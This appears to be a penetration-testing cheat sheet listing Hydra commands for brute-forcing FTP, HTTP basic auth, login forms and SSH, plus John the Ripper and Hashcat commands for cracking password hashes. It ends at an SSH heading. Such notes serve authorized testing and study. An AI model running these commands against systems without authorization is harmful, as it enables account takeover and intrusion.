 


<span style="color:#33FFE3">BRUTE FORCE AND WORDLIST ATTACKS</span>  

# Brute Force to services

#### Hydra

`hydra -l username -P /usr/share/wordlists/rockyou.txt service://IP`

Example: `hydra -l root -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.10`

	-l: login name
	-L: user list
	-p: password
	-P: password list


# Brute force login

Basic Auth Brute Force - Combined Wordlist: 
`hydra -C wordlist.txt SERVER_IP -s PORT http-get /`

Basic Auth Brute Force - User/Pass Wordlists: 
`hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`

Login Form Brute Force - Static User, Pass Wordlist: 
`hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`

SSH Brute Force - User/Pass Wordlists: 
`hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`


# Brute force/cracking hashes

* John:

	`john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`
	
	`john --status`
	
	`john --show hashes.txt`


* Hashcat:

	`hashcat -a 0 -m 0 hashes.txt /usr/share/wordlists/rockyou.txt`
	
	`hashcat -a 3 -m 0 hashes.txt ?a?a?a?a?a?a?a?a`



<span style="color:#33FFE3">SERVICES AND PROTOCOLS</span>  

# SSH
